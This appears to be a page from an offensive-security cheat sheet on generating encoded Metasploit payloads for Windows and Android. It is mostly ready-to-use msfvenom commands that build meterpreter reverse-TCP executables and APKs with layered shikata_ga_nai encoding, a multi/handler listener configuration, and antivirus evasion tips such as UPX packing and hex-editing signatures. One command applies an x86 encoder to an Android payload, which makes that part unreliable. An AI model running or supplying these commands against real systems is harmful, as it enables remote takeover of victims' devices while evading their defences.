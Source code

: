 ## 21. Advanced Payload Creation with Encoders (Windows & Android)
### A. Windows Payload with Encoder (Multiple Iterations)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 20 -f exe -o advanced_windows_payload.exe
```
**Explanation:**
- `-p windows/meterpreter/reverse_tcp`: Windows reverse TCP payload.
- `LHOST=<your_IP>`: Your IP address.
- `LPORT=<port>`: Port number (e.g., 4444).
- `-e x86/shikata_ga_nai`: Use the shikata_ga_nai encoder.
- `-i 20`: Apply 20 iterations of encoding for better obfuscation.
- `-f exe`: Output format as an EXE file.
- `-o advanced_windows_payload.exe`: Output file name.

*Combining Multiple Encoders (Windows Example)*
You can even chain multiple encoders to make the payload more complex:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<port> -e x86/shikata_ga_nai -i 5 -e x86/countdown -i 5 -f exe -o multi_encoded_windows_payload.exe
```
**Encrypting Payloads with Custom Formats (Base64 Encoding for Windows):**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 15 -f raw | base64 > encoded_payload.b64
```
- `-f raw`: Outputs raw bytes.
- `| base64`: Pipes output through Base64 encoding.

### B. Android Payload with Encoder (Multiple Iterations)
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<port> -e x86/shikata_ga_nai -i 10 -o advanced_android_payload.apk
```
**Explanation:**
- `-p android/meterpreter/reverse_tcp`: Android reverse TCP payload.
- `LHOST=<your_IP>`: Your IP address.
- `LPORT=<port>`: Port number (e.g., 4444).
- `-e x86/shikata_ga_nai`: Use the shikata_ga_nai encoder.
- `-i 10`: Apply 10 iterations of encoding.
- `-o advanced_android_payload.apk`: Output file name.

### Setting Up the Listener (Same for Both)
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploit
```
### Extra Advanced Evasion Tips
**Use Packers like UPX (Ultimate Packer for Executables):**
```
upx --best advanced_windows_payload.exe
```
**Modify Payload Signatures:**
Open the EXE or APK in a hex editor and modify non-executable sections.
